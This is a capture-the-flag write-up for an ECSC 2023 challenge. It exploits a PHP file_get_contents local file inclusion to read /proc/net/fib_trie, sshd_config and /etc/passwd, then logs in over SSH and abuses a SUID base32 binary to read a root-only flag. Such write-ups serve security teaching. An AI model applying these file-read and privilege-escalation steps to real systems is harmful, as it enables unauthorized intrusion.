

# Complex Base Inception

> Simply log in via SSH.
> 
> `TDBuZzRuZFN0cjBuZ1Bhc3Mxc1RoZUJhc2VTb21lVzNpcmRUeHQ=`
> 
> Oh, I forgot to add, the website seems to be using some kind of a proxy, and I don't know the real address.
> 
> https://complex-base-inception.ecsc23.hack.cert.pl/

## Recon
The website contains a form which allows to upload photos and a subpage to view uploaded photos. Clicking `send` sends a XHR request to the server with `image` form field set to `data:image/png;base64,[base64-encoded image]`. Upon changing the value of the field to `foobar` and inspecting response content, the following can be seen: 

The `image` field is passed to php function `file_get_contents`, which means we can use it to read arbitrary files from the server's filesystem. Their contents can be intercepted in the gallery, by base64-decoding souces of `img` tags present there.

## Exploiting the LFI
First, let's learn the true IP address of the server by reading `/proc/net/fib_trie`. The entry that's important is:
```
+-- 38.60.249.0/24 2 0 1
        [...]
        |-- 38.60.249.147
           /32 host LOCAL
        [...]
```
So the IP address is `38.60.249.147`. However, port 22 is closed on this host, so it's necessary to find the correct port in `/etc/ssh/sshd_config`:
```
#	$OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $

[...]

Include /etc/ssh/sshd_config.d/*.conf

Port 64
[...]
```
Finally, let's find users present on the server by reading `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
[...]
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
[...]
base64:x:1001:1001::/home/base64:/bin/bash
[...]
```
Only these 3 users have a login shell set. The correct user is `base64` and its password is given in base64-encoded form in the task description: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`. Now it's possible to log in using
```sh
$ ssh base64@38.60.249.147 -p 64
```
and the correct password.

In the user's home folder, a file named `flag.b64` is present, but it is owned and can only be read by root.

## Finding a way to read the flag
Running a tool line [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-deeec83e) reveals that the executable `/usr/bin/base32` has SUID bit set, which means it can be used to read the flag:
```sh
$ /usr/bin/base32 ~/flag.b64 | base32 -d | base64 -d
ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}
```
(Notice that it's necessary to provide the full path to the executable to read the file, since `base32` in the PATH is actually `/usr/sbin/base32` and doesn't have the SUID bit set.)

## Flag
`ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`